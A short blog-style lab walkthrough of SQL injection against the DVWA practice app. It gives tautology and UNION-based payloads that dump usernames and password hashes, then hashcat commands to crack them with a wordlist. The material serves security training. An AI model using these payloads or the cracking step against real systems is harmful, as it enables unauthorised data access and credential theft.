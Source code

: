 ```yaml
---
title: "SQL Injection"
date: 2024-02-07T16:06:04+01:00
draft: false
tags: ["Caido", "SQL", "Web"]
categories: ["Hacking"]
description: "A practical guide to exploiting SQL Injection vulnerabilities in DVWA. Learn how attackers manipulate SQL queries to access or modify sensitive data, use UNION-based attacks, and extract password hashes. Includes hands-on examples, screenshots, and tips for using tools like Caido and hashcat for post-exploitation."
---
```


 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. 

 https://portswigger.net/web-security/sql-injection


Low:

```1' or '1'='1```

```1' OR 1=1 -- //```
	
![](1.png)

```1' OR 1=1 --``` Will work

```1' OR 1=1 - ```Wont work

![](2.png)

```'UNION SELECT user, password FROM users#```

![](3.png)

`![Screenshot](4.png)


Medium:

Same thing but in Caido isn't working

![Screenshot](5.png)

![Screenshot](6.png)

![Screenshot](7.png)


Once you have the hashes load them into file and run hashcat: 
```hashcat -m 0 hash /usr/share/wordlists/rockyou.txt```

to view them: 
```hashcat --show hash```

![Screenshot](8.png)